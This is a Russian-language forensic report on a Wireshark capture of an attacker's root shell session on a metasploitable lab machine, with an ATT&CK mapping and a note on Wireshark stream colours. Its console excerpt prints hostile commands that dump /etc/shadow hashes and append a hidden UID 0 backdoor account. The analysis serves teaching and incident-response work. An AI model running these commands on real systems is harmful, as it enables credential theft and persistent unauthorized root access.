 # Отчёт анализа сеанса Wireshark

## 1. Что было обнаружено  
В расшифровке (`Follow → TCP Stream`) виден **полноценный интерактивный сеанс атакующего** на машине `metasploitable`:

| Шаг | Краткое описание | MITRE ATT&CK |
|-----|------------------|--------------|
| Получен root-шелл (`uid=0`) | Привилегии суперпользователя уже даны | T1059 CLI |
| Подготовка окружения (`nohup >/dev/null 2>&1`) | Скрыть вывод, обеспечить устойчивость | T1059 CLI |
| Проверка живости (`echo qeQCrFL4JOPD9Kzc`) | Маркер/«бейкон» для корреляции | — |
| Разведка (`whoami`, `hostname`, `ifconfig`) | Сбор сведений о системе и сети | T1033 / T1082 / T1049 |
| Дамп хешей (`cat /etc/shadow`) | Извлечение паролей | T1003 OS Credential Dumping |
| Назначение бэкдора (`myroot` в `/etc/passwd` и `/etc/shadow`) | Создана скрытая учётка UID 0 | T1098 / T1112 |
| Завершение (`exit`) | Сессионный «шум» минимизирован | — |

## 2. Что значат цвета в Wireshark (`Follow TCP Stream`)

| Цвет | Куда идёт трафик | В контексте сеанса |
|------|-----------------|---------------------|
| **Красный** | **Client → Server** | Вводимые злоумышленником команды (`SRC`) |
| **Синий** | **Server → Client** | Ответы системы на эти команды (`DST`) |
> **Примечание:** при большем количестве одновременных потоков Wireshark добавляет дополнительные цвета (зелёный, фиолетовый и т. д.), однако красный/синий остаются первой парой «запрос–ответ».

## 3. Детальная расшифровка (фрагмент)

> Красным — запросы (команды), синим — ответы.

```console
# root-access уже получен
uid=0(root) gid=0(root)

# подавление вывода
nohup  >/dev/null 2>&1

# однократный маркер
echo qeQCrFL4JOPD9Kzc
qeQCrFL4JOPD9Kzc

# подтверждение привилегий и разведка
whoami            → root
hostname          → metasploitable
ifconfig          → eth0 209.165.200.235/27 ...

# дамп хешей
cat /etc/shadow   → (список хешей)

# создание скрытого root-пользователя
echo "myroot::..." >> /etc/shadow
echo "myroot:x:0:0:root:/root:/bin/bash" >> /etc/passwd

# проверка
cat /etc/passwd | grep root
root:x:0:0:root:/root:/bin/bash
myroot:x:0:0:root:/root:/bin/bash

# выход
exit
